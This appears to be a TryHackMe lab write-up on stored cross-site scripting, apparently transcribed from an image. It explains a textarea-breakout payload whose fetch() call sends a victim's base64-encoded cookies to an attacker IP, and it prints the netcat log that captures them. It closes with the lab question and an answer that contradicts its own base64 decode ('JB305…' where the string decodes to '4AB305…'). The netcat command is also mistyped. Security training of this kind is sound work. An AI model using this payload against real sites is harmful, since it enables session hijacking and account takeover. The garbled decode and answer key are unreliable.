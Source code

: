 The fetch() command makes an HTTP request.

{URL_OR_IP} is either the THM request catcher URL or your IP address from the THM AttackBox or your IP address on the THM VPN Network.

?cookie= is the query string that will contain the victim's cookies.

btoa() command base64 encodes the victim's cookies.

document.cookie accesses the victim's cookies for the Acme IT Support Website.

</script>closes the JavaScript code block.


Now create another ticket using the above payload, making sure to swap out the {URL_OR_IP} variable to your settings (make sure to specify the port number as well for the Netcat listener). Now, wait up to a minute, and you'll see the request come through containing the victim's cookies. 


You can now base64 decode this information using a site like https://www.base64decode.org/, giving you the necessary information to answer the below question.

```
</textarea><script>fetch('http://10.10.109.139:9001?cookie=' + btoa(document.cookie) );</script> //thm based
```

```
nc lvnp 9001
Listening on [0.0.0.0] (family 0, port 9001)
Connection from 10.10.67.155 42834 received!
GET /?cookie=c3RhZmYtc2Vzc2lvbj00QUIzMDVFNTU5NTUxOTc2OTNGMDFENkY4RkQyRDMyMQ== HTTP/1.1
Host: 10.10.109.139:9001
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/89.0.4389.72 Safari/537.36
Accept: */*
Origin: http://172.17.0.1
Referer: http://172.17.0.1/
Accept-Encoding: gzip, deflate
Accept-Language: en-US

```

*decode c3RhZmYtc2Vzc2lvbj00QUIzMDVFNTU5NTUxOTc2OTNGMDFENkY4RkQyRDMyMQ==
staff-sessionJB305E55955197693F01D6F8FD2D321*

What is the value of the staff-session cookie?  *JB305E55955197693F01D6F8FD2D321*


[[SSRF]]

